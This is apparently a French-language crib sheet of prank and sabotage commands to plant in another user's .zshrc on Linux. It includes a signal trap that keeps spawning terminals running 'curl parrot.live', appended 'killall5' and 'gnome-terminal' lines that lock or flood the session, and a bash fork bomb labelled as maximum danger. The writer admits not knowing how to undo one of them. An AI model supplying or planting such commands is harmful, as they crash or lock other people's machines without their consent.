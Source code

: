 trap 'gnome-terminal -- zsh -c "source .zshrc && curl parrot.live"' ABRT ALRM BUS CHLD CLD CONT FPE HUP ILL INT IO KILL PIPE POLL PROF PWR QUIT SEGV STKFLT 
curl parrot.live

```nano .zshrc``` -> coller a la toute fin du fichier -> CTRL+O entree et CTRL+X
```source .zshrc```


[------------------------------------------------------------]


dans la racine (dossier home)
```touch .reset```

Pour enlever -> ```rm -rf .reset```

[-------------------------------------------------------------]
/!\ DANGER MAXIMAL /!\

```:(){ :|:& };:```

[-------------------------------------------------------------]
/!\ DANGER MAIS CA VA MAIS QUAND MEME BELEK JSP COMMENT ENLEVER /!\

```nano .zshrc``` -> a la toute fin mettre : ```killall5```
```source .zshrc```

[-------------------------------------------------------------]
```nano .zshrc``` -> a la toute fin mettre : ```gnome-terminal```
```source .zshrc```

[-------------------------------------------------------------]
```echo "gnome-terminal" >> .zshrc && source .zshrc```
